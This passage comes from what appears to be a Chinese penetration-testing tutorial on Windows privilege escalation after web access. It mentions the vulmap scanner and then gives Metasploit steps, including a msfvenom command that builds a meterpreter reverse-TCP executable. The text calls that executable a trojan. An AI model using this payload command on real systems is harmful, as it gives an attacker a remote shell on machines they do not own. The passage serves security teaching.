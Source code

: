 ![vulmap系统运行](./Web环境/vulmap系统运行.png)

但是这个工具有一个缺点：只能在powershell里面使用，对于Web提权，不能使用powershell，一般情况下是cmd。

#### 利用MSF

获取到相关漏洞编号后：可以针对此漏洞进行提权，提权的方法有：

1. MSF（优先使用）
2. 特定的EXP

##### MSF

反向链接

先查看本机ip。

```bash
ifconfig
```

生成反弹shell的木马：

```bash
msfvenom -p windows/meterpreter/reverse_tcp LPORT=监听的端口 LHOST=监听的IP -f exe -o test.exe
# 其中 -f exe 指定输出格式为exe文件
# -o 保存exp为test.exe
```

![生成木马](./MSF提权/生成木马.png)
